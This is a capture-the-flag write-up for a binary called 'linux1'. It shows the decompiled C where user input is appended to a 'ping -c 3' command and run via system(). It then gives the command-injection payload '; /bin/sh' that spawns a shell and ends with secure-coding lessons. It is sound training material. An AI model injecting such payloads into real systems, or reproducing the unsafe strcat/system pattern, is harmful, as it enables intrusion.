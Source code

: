 # Linux1 CTF Writeup

## Challenge Overview
The goal was simple: either spawn a shell or read the flag from the `linux1` binary.

## Analysis
1. **Binary Check:** `linux1` turned out to be an ELF 64-bit executable.
2. **Tooling:** Used Ghidra to decompile and analyze the binary.
3. **Vulnerability:** Found a classic `command injection` in the `gate()` function due to the use of `strcat` and `system` without proper input validation.

### Key Code Analysis
```c
puts("Guard: Go away or I shall ring the alarm!");
fgets(local_78,0x20,stdin);
strcat((char *)&local_58, local_78);
system((char *)&local_58);
puts("Guard: Where is everybody?");
```
- `fgets` reads up to 32 characters into `local_78`.
- `strcat` appends the input to `local_58`, which initially contained `"ping -c 3 "`.
- `system` executes the entire string as a shell command.

## Exploitation and Payload Strategy
1. The original string in `local_58` is:
```bash
ping -c 3 
```
2. By entering a clever command, we could close the `ping` command and run our own stuff.

### Payload Used
```bash
; /bin/sh
```
- The `;` stops the `ping` command.
- `/bin/sh` spawns a new shell.

### Steps Taken
1. **Run the binary:**
```bash
./linux1
```
2. **Enter the payload:**
```bash
; /bin/sh
```
3. **Result:** Shell opened, confirmed by the `$` prompt.

## Result and Solution
- The guard was bypassed, and a shell was spawned successfully.
- Confirmed shell access via the `$` prompt.

## Conclusion and Lessons
- Never pipe user input directly into `system`.
- `strcat` is risky if not used carefully.
- Ghidra is excellent for spotting vulnerabilities related to `system` and `strcat` in C code.

## References
- ![alt text](/img/image.png)
- ![alt text](/img/image-1.png)

